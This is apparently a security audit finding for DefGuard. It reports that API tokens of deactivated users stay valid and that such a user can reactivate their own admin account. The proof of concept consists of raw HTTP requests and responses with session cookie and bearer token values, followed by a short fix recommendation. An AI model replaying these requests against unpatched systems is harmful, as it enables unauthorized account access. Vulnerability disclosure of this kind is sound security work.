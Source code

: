 ```yaml
---
title: "DG25-3: API Tokens of inactive users are not being invalidated"
severity: Medium
cvss_score: 5.4
cvss_string: "/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1509
status: Completed
---
```


### Technical details

User testtest has administrative rights but is inactive:

**Request:**\
\
**GET** /api/v1/user/testtest HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=3TsmOvtETUdRVedNYJDJvnHH\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Mon, 04 Aug 2025 11:52:29 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 363\
\

```json
{
  "devices ": [],
  "security_keys ": [],
  "user ": {
    "authorized_apps ": [],
    "email ": "phtest2@isec.pl ",
    "email_mfa_enabled ": false,
    "enrolled ": true,
    "first_name ": "Test1xxxx ",
    "groups ": [
      "admin "
    ],
    "id ": 2,
    "is_active ": false,
    "is_admin ": true,
    "last_name ": "Test ",
    "ldap_pass_requires_change ": false,
    "mfa_enabled ": false,
    "mfa_method ": "None ",
    "phone ": " ",
    "totp_enabled ": false,
    "username ": "testtest "
  }
}
```

Nonetheless, this user still can access the DefGuard REST via their API
token:

**Request:**\
\
**GET** /api/v1/me HTTP/2\
**Host:** defguard.dvpnsec.net\
**Authorization:** Bearer dg-ArCeAQ9klHfs5YhekQf4ySkIUXUoT4wF\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Mon, 04 Aug 2025 11:53:37 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 322\
\

```json
{
  "authorized_apps ": [],
  "email ": "phtest2@isec.pl ",
  "email_mfa_enabled ": false,
  "enrolled ": true,
  "first_name ": "Test1xxxx ",
  "groups ": [
    "admin "
  ],
  "id ": 2,
  "is_active ": false,
  "is_admin ": true,
  "last_name ": "Test ",
  "ldap_pass_requires_change ": false,
  "mfa_enabled ": false,
  "mfa_method ": "None ",
  "phone ": " ",
  "totp_enabled ": false,
  "username ": "testtest "
}
```
Moreover, the deactivated user can use this API token to activate their
account:

**Request:**\
\
**PUT** /api/v1/user/testtest HTTP/2\
**Host:** defguard.dvpnsec.net\
**Authorization:** Bearer dg-ArCeAQ9klHfs5YhekQf4ySkIUXUoT4wF\
**Content-Length:** 321\
**User-Agent:** Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36\
**Content-Type:** application/json\
```json 
{
  "authorized_apps ": [],
  "email ": "phtest2@isec.pl ",
  "email_mfa_enabled ": false,
  "enrolled ": true,
  "first_name ": "Test1xxxx ",
  "groups ": [
    "admin "
  ],
  "id ": 2,
  "is_active ": true,
  "is_admin ": true,
  "last_name ": "Test ",
  "ldap_pass_requires_change ": false,
  "mfa_enabled ": false,
  "mfa_method ": "None ",
  "phone ": " ",
  "totp_enabled ": false,
  "username ": "testtest "
}
 ```
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Mon, 04 Aug 2025 11:57:41 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 4\
\
null

### Recommendations

Whenever user is being deactivates - deactivate their API tokens too.

